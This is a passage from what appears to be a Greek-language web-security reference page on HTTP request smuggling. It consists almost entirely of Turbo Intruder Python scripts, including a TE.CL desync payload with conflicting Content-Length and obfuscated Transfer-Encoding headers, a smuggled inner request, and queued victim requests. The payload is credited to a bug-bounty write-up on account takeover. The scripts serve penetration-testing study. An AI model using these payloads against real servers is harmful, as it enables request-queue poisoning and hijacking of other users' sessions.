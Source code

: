 ```python
'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)

def handleResponse(req, interesting):
table.add(req)
```
### TE.CL

Από: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)


def handleResponse(req, interesting):
table.add(req)
```
## Εργαλεία
